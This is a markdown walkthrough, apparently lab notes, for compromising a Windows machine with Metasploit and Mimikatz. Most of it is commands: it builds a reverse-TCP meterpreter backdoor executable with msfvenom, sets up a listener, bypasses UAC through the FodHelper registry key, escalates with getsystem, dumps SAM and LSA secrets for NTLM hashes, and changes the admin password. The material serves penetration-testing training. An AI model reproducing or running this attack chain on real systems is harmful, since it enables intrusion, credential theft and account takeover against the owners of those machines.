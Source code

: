# Mimikatz

Mimikatz is a post exploitation tool that enables users to save and view authentication credentials such as Kerberos tickets, dump passwords from memory, PINs, as well as hashes. It enables you to perform functions such as pass-the-hash, pass-the-ticket, and makes post exploitation lateral movement within a network. Use Metasploit inbuilt Mimikatz module which is also known as kiwi to dump Hashes from the target machine.

## Create the PE to send to the target

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/backdoor.exe
```

## Set up listener

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost VALUE
set lport VALUE
run
```

> Open victim machine and execute it

## Bypass UAC

Bypass Windows UAC protection via **FodHelper Registry Key**

```
use exploit/windows/local/bypassuac_fodhelper
set session 1
show options
exploit
```

> when get the system, do

```
getsystem -t 1     # get system via Pipe Impersonation
getuid             # fetch the server username
```

## Use MIMIKATZ

```
load kiwi          # load the mimikatz
help kiwi          # help instruction
lsa_dump_sam       # load NTLM hash of all users
lsa_dump_secrets   
```

> **LSA secrets** are used to manage a system’s local security policy, and contain sensitive data such as User passwords, IE passwords, service account passwords, SQL passwords, etc.

## Change Password

The NTLM hash of Admin is received from the previous step.

```
password_change -u Admin -n [NTLM hash of Admin] -P password
```

Check the new hash value by typing **lsa\_dump\_sam** to load NTLM hashes of all users. The NTLM hash matched with our new password.
